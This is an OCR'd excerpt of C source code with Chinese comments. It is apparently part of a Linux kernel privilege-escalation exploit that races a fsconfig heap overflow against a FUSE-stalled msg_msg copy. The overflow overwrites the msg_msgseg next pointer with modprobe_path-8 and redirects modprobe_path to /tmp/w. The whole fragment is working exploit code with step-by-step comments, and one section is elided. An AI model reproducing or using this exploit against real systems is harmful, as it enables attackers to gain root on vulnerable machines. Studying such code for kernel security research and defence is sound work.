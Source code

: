 ```c
    int race = pthread_create(&thread, NULL, arb_write, NULL);
    if(race != 0)
    {
        perror("can't setup threads for race");
    }
    //[5]发送消息，消息开头在第一个mmap 页的末尾，会触发page fault，等待中断处理
    send_msg(target, rooter, size - 0x30, 0);
    //[6]开启线程，线程执行溢出操作，在等待中断处理的过程中覆盖msg_msg 的mst_msgseg *next指针
    pthread_join(thread, NULL);
    munmap((void *)0x1337000, 0x1000);
    munmap((void *)0x1338000, 0x1000);
    close(evil_fd);
    close(fd);
}

void *arb_write(void *args)
{//[6]负责溢出的线程
    uint64_t goal = modprobe_path - 8;
    char pat[0x1000] = {0};
    memset(pat, 0x41, 29);
    char evil[0x20];
    memcpy(evil, (void *)&goal, 8);
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    //将msg_msg 中的msg_msgseg * next指针覆盖为modprobe_path - 8
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    puts("[*] Done heap overflow");
    write(fuse_pipes[1], "A", 1);
}

int evil_read(const char *path, char *buf, size_t size, off_t offset,
              struct fuse_file_info *fi)
{//[5]fuse文件系统的evil_read 直接将需要篡改的内容拼接到对应位置上。
    // change to modprobe_path
    char signal;
    char evil_buffer[0x1000];
    memset(evil_buffer, 0x43, sizeof(evil_buffer));
    char *evil = modprobe_win; //char *modprobe_win = "/tmp/w";
    memcpy((void *)(evil_buffer + 0x1000-0x30), evil, sizeof(evil));

    size_t len = 0x1000;

    ···

    memcpy(buf, evil_buffer + offset, size); 

    // sync with the arb write thread
    read(fuse_pipes[0], &signal, 1); //[7]等待溢出操作完成,返回，完成任意地址写

    return size;
}
```

